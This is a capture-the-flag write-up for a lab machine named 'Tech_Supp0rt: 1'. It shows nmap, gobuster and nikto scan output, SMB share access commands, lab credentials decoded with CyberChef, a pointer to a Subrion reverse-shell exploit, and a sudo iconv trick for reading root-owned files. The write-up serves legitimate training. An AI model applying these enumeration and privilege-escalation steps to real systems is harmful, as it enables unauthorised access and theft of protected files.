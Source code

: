 # Tech_Supp0rt: 1

Questions:
1. What is the root.txt flag?

## nmap scan
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## gobuster scan
```
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.46.219/wordpress/]
/test                 (Status: 301) [Size: 311] [--> http://10.10.46.219/test/]
```

## nikto scan
```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.46.219
+ Target Hostname:    10.10.46.219
+ Target Port:        80
+ Start Time:         2023-08-31 13:31:21 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 5c367f4428b1f, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /phpinfo.php: Output from the phpinfo() function was found.
+ /test/: This might be interesting.
+ /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: </wordpress/index.php/index.php/wp-json/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-content/uploads/: Directory indexing found.
+ /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
+ /wordpress/wp-login.php: Wordpress login found.
+ 8074 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2023-08-31 13:36:24 (GMT-4) (303 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- we got the phpinfo.php file
- http://10.10.46.219/wordpress/wp-login.php --> afte a few tests we can see that the username "support" exist

## Samba
- smbclient \\\\10.10.46.219\\websvr
- ls
- get enter.txt \
We got..
```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```
**admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk** \
If we go to **https://gchq.github.io/CyberChef/** anduse "Magic" we got this password: "Scam2021" \
When we google the CMS "subrion" we can find the robots.txt on this Git project: https://github.com/intelliants/subrion 

So lets try.. 
http://10.10.46.219/subrion/panel/ \
And wo can paste in our credentials.. got access :)

## reverse shell
Now we can easily open an reverse shell. 
- https://www.exploit-db.com/exploits/49876
In path "/var/www/html/wordpress/wp-config.php" we find a password: **ImAScammerLOL!123!**
We can change the user with this password, an now type in "sudo -l" and see "/user/bin/iconv" \
On https://gtfobins.github.io/gtfobins/iconv/#sudo we can find following lines:
```
LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```
Now you can read the root.txt file.























